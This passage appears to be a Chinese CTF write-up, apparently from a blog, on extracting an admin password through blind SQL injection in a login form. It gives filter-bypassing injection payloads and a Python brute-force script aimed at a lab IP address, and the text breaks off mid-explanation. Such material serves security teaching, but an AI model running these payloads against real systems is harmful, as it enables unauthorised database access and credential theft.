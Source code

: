 

<img src="https://i-blog.csdnimg.cn/blog_migrate/1ca8f2fd599f2f25d39d486bcbcd8d50.png" alt="" style="max-height:99px; box-sizing:content-box;" />


但是这里确实没有字典 我也没有找到字典能够爆破

然后我们直接进行读取即可

```lisp
a'or(ord(substr(reverse(substr((select(group_concat(password))from(blindsql.admin))from(1)))from(32)))<>52)#
```



```cobol
import requests
import string,hashlib
import time
url = 'http://114.67.175.224:18038/'
string1 = string.digits + (string.ascii_lowercase)
password = ''
for i in range(1,40):
    for j in range(40,0,-1):
        for k in range(48, 128):
                payload = """a'or(ord(substr(reverse(substr((select(group_concat(password))from(blindsql.admin))from({0})))from({1})))<>{2})#""".format(i, j, k)
                data = {
                    'username':payload,
                    'password':'abcd'
                }
                try:
                    res = requests.post(url, data=data, timeout=5)
                except:
                    time.sleep(2)
                    res = requests.post(url, data=data, timeout=5)
                if 'username does not exist!' in res.text:
                    password += chr(k)
                    print(password)
                    break
                res.close()
```

4dcc88f8f1bc05e7c2ad1a60288481a2

但是确实这个爆破太慢了

我这里再介绍另一个方法

```vbnet
a'or((ascii(substr((select(password))from(1)))-48))--
 
 
这里其实最主要就是
 
 
ascii 和 -48
 
-48 是 减去48
 
就是我们查询到passaword的首字母 如果为48 即 1 就输出 0 那么整体输出0
 
如果不为48 就输出1 整体就为1
 
 
这里不需要使用倒装
 
因为
 
```